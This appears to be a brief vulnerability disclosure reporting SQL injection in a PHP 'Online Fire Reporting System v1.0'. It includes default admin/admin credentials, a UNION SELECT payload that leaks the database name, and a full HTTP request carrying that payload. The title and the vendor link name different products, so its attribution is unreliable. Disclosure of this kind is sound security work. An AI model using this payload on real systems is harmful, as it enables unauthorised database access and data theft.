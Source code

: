 # Online Fire Reporting System v1.0  has SQL injection

The password for the backend login account is: admin/admin

vendors: https://www.campcodes.com/projects/php/online-job-search-system-using-php-mysql-free-download/

Vulnerability File: /eris/index.php?q=category&search=

Vulnerability location: /eris/index.php?q=category&search=,search

Current database name: erisdb

[+] Payload: /eris/index.php?q=category&search=Banking%27%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,database(),15,16,17,18,19--+ // Leak place ---> search

```sql
GET /eris/index.php?q=category&search=Banking%27%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,database(),15,16,17,18,19--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=mho0fs263l0tis8l6v3lqpu6q4
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/170849294-63257142-f64c-42ba-bc04-e359ed18aceb.png)

![image](https://user-images.githubusercontent.com/54017627/170849297-b0af23e4-c3d6-440b-a66e-0d0dc7a08e80.png)
